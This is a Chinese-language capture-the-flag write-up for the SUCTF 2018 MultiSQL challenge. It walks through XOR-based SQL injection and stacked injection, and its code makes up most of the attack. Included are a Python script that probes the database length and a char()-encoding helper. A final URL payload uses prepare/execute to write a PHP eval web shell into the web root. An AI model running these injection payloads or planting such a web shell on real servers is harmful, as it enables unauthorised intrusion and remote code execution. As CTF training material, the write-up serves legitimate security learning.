







# [SUCTF 2018]MultiSQL

## 知识点

`堆叠注入`

`异或注入`

`sql预编译写入shell`

## 解题

首页没有找到利用的东西



查看源代码，发现了`注册`和`登录`



简单注册登录后发现`url中有id参数`，尝试异或是否能正常执行，正常界面如下



`0^6`返回`id=6`的界面,`6^6`返回`id=0`的界面





尝试异或注入，使用代码判断数据库长度

```python
import requests
# from urllib.parse import urljoin

url = 'http://1819e187-71c1-48af-8e9a-5d77f5213894.node5.buuoj.cn:81/user/user.php?id='

COOKIE = {'PHPSESSID': 'hrsljrip8dshqjd9krvdr99b65'}

def judge_database(db_length):
    """ 获取数据库长度 """
    for i in range(db_length):
        tmp_url = f"{url}0^(length(database())={i})"
        resp = requests.get(tmp_url, timeout=8, cookies=COOKIE)
        if "user_name:admin" in resp.text:          # 正确条件
            print(f"Database length is: {i}")
            break
        print(f"try 0^(length(database())={i})")


if __name__ == '__main__':
    db_length = 20
    judge_database(db_length)
```



发现可以注入数据库，但是后面似乎过滤了`substrd`等，尝试堆叠注入直接写入文件

使用`python`代码生成`sql char hex`编码

```python
def sql_to_char(sql):
    strings = ','.join([str(ord(c)) for c in sql])
    print(f"char({strings})")

# sql_statement = "select sleep(2);"

sql_statement = "select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/1.php';"


sql_to_char(sql_statement)

# char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,49,46,112,104,112,39,59)
```

通过预编译和堆叠注入直接写入文件

```
?id=2;set+@sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,49,46,112,104,112,39,59);prepare+query+from+@sql;execute+query;
```


